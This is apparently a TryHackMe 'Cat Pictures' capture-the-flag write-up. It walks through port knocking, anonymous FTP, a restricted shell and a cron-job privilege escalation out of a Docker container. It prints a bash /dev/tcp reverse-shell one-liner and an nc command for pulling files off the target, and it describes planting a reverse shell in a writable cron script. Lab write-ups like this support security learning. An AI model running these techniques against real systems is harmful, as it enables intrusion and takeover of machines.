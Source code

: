 # [Cat Pictures](https://tryhackme.com/room/catpictures)

First as usual, `nmap`.

```
# Nmap 7.92 scan initiated Fri Feb 18 15:57:16 2022 as: nmap -vvv -p 22,4420,8080 -sCV -oA init 10.10.243.100
Nmap scan report for 10.10.243.100
Host is up, received conn-refused (0.29s latency).
Scanned at 2022-02-18 15:57:26 +07 for 110s

PORT     STATE SERVICE      REASON  VERSION
22/tcp   open  ssh          syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 37:43:64:80:d3:5a:74:62:81:b7:80:6b:1a:23:d8:4a (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDIDEV5ShmazmTw/1A6+19Bz9t3Aa669UOdJ6wf+mcv3vvJmh6gC8V8J58nisEufW0xnT69hRkbqrRbASQ8IrvNS8vNURpaA0cycHDntKA17ukX0HMO7AS6X8uHfIFZwTck5v6tLAyHlgBh21S+wOEqnANSms64VcSUma7fgUCKeyJd5lnDuQ9gCnvWh4VxSNoW8MdV64sOVLkyuwd0FUTiGctjTMyt0dYqIUnTkMgDLRB77faZnMq768R2x6bWWb98taMT93FKIfjTjGHV/bYsd/K+M6an6608wMbMbWz0pa0pB5Y9k4soznGUPO7mFa0n64w6ywS7wctcKngNVg3H
|   256 53:c6:82:ef:d2:77:33:ef:c1:3d:9c:15:13:54:0e:b2 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCs+ZcCT7Bj2uaY3QWJFO4+e3ndWR1cDquYmCNAcfOTH4L7lBiq1VbJ7Pr7XO921FXWL05bAtlvY1sqcQT6W43Y=
|   256 ba:97:c3:23:d4:f2:cc:08:2c:e1:2b:30:06:18:95:41 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGq9I/445X/oJstLHIcIruYVdW4KqIFZks9fygfPkkPq
4420/tcp open  nvm-express? syn-ack
| fingerprint-strings:
|   DNSVersionBindReqTCP, GenericLines, GetRequest, HTTPOptions, RTSPRequest:
|     INTERNAL SHELL SERVICE
|     please note: cd commands do not work at the moment, the developers are fixing it at the moment.
|     ctrl-c
|     Please enter password:
|     Invalid password...
|     Connection Closed
|   NULL, RPCCheck:
|     INTERNAL SHELL SERVICE
|     please note: cd commands do not work at the moment, the developers are fixing it at the moment.
|     ctrl-c
|_    Please enter password:
8080/tcp open  http         syn-ack Apache httpd 2.4.46 ((Unix) OpenSSL/1.1.1d PHP/7.3.27)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Cat Pictures - Index page
|_http-server-header: Apache/2.4.46 (Unix) OpenSSL/1.1.1d PHP/7.3.27
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF:x20SERVICE\nplease\x20note:\x20cd\x20commands\x20do\x20not\x20work\x20a
SF:t\x20the\x20moment,\x20the\x20developers\x20are\x20fixing\x20it\x20at\x
SF:20the\x20moment\.\ndo\x20not\x20use\x20ctrl-c\nPlease\x20enter\x20passw
SF:ord:\nInvalid\x20password\.\.\.\nConnection\x20Closed\n")%r(GetRequest,
SF:C6,"INTERNAL\x20SHELL\x20SERVICE\nplease\x20note:\x20cd\x20commands\x20
SF:do\x20not\x20work\x20at\x20the\x20moment,\x20the\x20developers\x20are\x
SF:20fixing\x20it\x20at\x20the\x20moment\.\ndo\x20not\x20use\x20ctrl-c\nPl
SF:ease\x20enter\x20password:\nInvalid\x20password\.\.\.\nConnection\x20Cl
SF:osed\n")%r(HTTPOptions,C6,"INTERNAL\x20SHELL\x20SERVICE\nplease\x20note
SF::\x20cd\x20commands\x20do\x20not\x20work\x20at\x20the\x20moment,\x20the
SF:\x20developers\x20are\x20fixing\x20it\x20at\x20the\x20moment\.\ndo\x20n
SF:ot\x20use\x20ctrl-c\nPlease\x20enter\x20password:\nInvalid\x20password\
SF:.\.\.\nConnection\x20Closed\n")%r(RTSPRequest,C6,"INTERNAL\x20SHELL\x20
SF:SERVICE\nplease\x20note:\x20cd\x20commands\x20do\x20not\x20work\x20at\x
SF:20the\x20moment,\x20the\x20developers\x20are\x20fixing\x20it\x20at\x20t
SF:he\x20moment\.\ndo\x20not\x20use\x20ctrl-c\nPlease\x20enter\x20password
SF::\nInvalid\x20password\.\.\.\nConnection\x20Closed\n")%r(RPCCheck,A0,"I
SF:NTERNAL\x20SHELL\x20SERVICE\nplease\x20note:\x20cd\x20commands\x20do\x2
SF:0not\x20work\x20at\x20the\x20moment,\x20the\x20developers\x20are\x20fix
SF:ing\x20it\x20at\x20the\x20moment\.\ndo\x20not\x20use\x20ctrl-c\nPlease\
SF:x20enter\x20password:\n")%r(DNSVersionBindReqTCP,C6,"INTERNAL\x20SHELL\
SF:x20SERVICE\nplease\x20note:\x20cd\x20commands\x20do\x20not\x20work\x20a
SF:t\x20the\x20moment,\x20the\x20developers\x20are\x20fixing\x20it\x20at\x
SF:20the\x20moment\.\ndo\x20not\x20use\x20ctrl-c\nPlease\x20enter\x20passw
SF:ord:\nInvalid\x20password\.\.\.\nConnection\x20Closed\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Feb 18 15:59:16 2022 -- 1 IP address (1 host up) scanned in 120.26 seconds
```

Looking at the website on port 8080, we have a single post.

![](home.png)
![](post.png)

Looking at the post, it seems to be telling us to do port knocking. I used [knock.py](https://github.com/grongor/knock) to knock as suggested and re-ran `nmap`. As a result, FTP should be open on port 21.

With FTP open, we can log in anonymously and grab the only file "note.txt".

```
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Apr 02  2021 .
drwxr-xr-x    2 ftp      ftp          4096 Apr 02  2021 ..
-rw-r--r--    1 ftp      ftp           162 Apr 02  2021 note.txt
226 Directory send OK.

ftp> get note.txt
```

The note contains credentials for port 4420 which we can access using `nc`. After using the password, we should get a very restrictive shell. I tried to get a better shell with `bash -c 'exec bash -i &>/dev/tcp/LHOST/LPORT <&1'` but the resulting shell seems about just as restrictive.

Checking `/home`, there's catlover's home we can access. In there is a single binary: `runme`.

```sh
I have no name!@cat-pictures:/home/catlover# ls -la
ls -la
total 28
drwxr-xr-x 2 0 0  4096 Apr  3  2021 .
drwxr-xr-x 3 0 0  4096 Apr  2  2021 ..
-rwxr-xr-x 1 0 0 18856 Apr  3  2021 runme
```

Running the binary, we're prompted for a password, for which I tried the previously found password in `note.txt` which didn't work.

```sh
I have no name!@cat-pictures:/home/catlover# ./runme
./runme
Please enter yout password: <REDACTED>
Access Denied
```

I wanted to analyze the binary so I ran `nc -lnvp 1337 > runme` on my local machine and `cat runme | nc LHOST 1337` on the victim machine.

Checking for strings ...

```sh
$ rabin2 -z runme
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x00002009 0x00002009 7   8    .rodata ascii <REDACTED PASSWORD>
1   0x00002011 0x00002011 28  29   .rodata ascii Please enter yout password:
2   0x00002030 0x00002030 44  45   .rodata ascii Welcome, catlover! SSH key transfer queued!
3   0x0000205d 0x0000205d 25  26   .rodata ascii touch /tmp/gibmethesshkey
4   0x00002077 0x00002077 13  14   .rodata ascii Access Denied
```

... we see what looks like a potential password (redacted) and signs that something is done with an SSH key. Giving `runme` the password puts catlover's `id_rsa` in `/home/catlover` which we can grab and use to SSH in as catlover. However, upon landing, we seem to be the root user. Checking `/`, we have `.dockerenv` so we know we're in a docker container.

With some manual enumeration, I found `/opt/clean/clean.sh` which looks like something run periodically as a cron job.

```sh
root@7546fa2336d6:/opt/clean# cat clean.sh
#!/bin/bash

rm -rf /tmp/*
```

The file is writable so I appended a reverse shell to it and set up a listener. After a bit of waiting, I got a shell as root on the host machine.
